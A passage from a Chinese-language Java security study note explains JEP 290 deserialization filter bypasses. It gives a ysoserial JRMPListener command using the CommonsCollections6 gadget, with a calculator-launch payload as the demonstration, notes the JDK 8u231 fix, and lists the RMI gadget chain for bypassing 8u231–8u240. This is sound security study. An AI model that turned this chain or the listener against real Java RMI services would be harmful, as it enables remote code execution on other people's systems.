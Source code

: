  - ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```

![bypass jdk8u121-jdk8u130](./Java安全学习-JEP290/41.png)

### 修复
`JDK8u231`版本及以上的`DGCImpl_Stub#dirty`方法中多了一个`setObjectInputFilter`的过程, 导致`JEP 290`重新可以`check`到. 

![](./Java安全学习-JEP290/58.png)

## 8u231~8u240
在`ByPass 8u121~8u230`的时候, `UnicastRef`类用了一层包装, 通过`DGCClient`向`JRMPListener`发起`JRMP`请求, 而在`jdk8u231`版本及以上的`DGCImpl_Stub#dirty`方法中多了一个`setObjectInputFilter`的过程, 此时又会被`JEP290 check`到. `ByPass 8u231~8u240`的`Gadget`如下:

```text
客户端发送数据 –> 服务端反序列化(RegistryImpl_Skle#dispatch)
UnicastRemoteObject#readObject –>
UnicastRemoteObject#reexport –>
UnicastRemoteObject#exportObject –> overload
UnicastRemoteObject#exportObject –>
UnicastServerRef#exportObject –> …
TCPTransport#listen –>
TcpEndpoint#newServerSocket –>
RMIServerSocketFactory#createServerSocket –> Dynamic Proxy(RemoteObjectInvocationHandler)
RemoteObjectInvocationHandler#invoke –>
RemoteObjectInvocationHandler#invokeMethod –>
UnicastRef#invoke –> (Remote var1, Method var2, Object[] var3, long var4)
StreamRemoteCall#executeCall –>
ObjectInputSteam#readObject –> "demo"
```

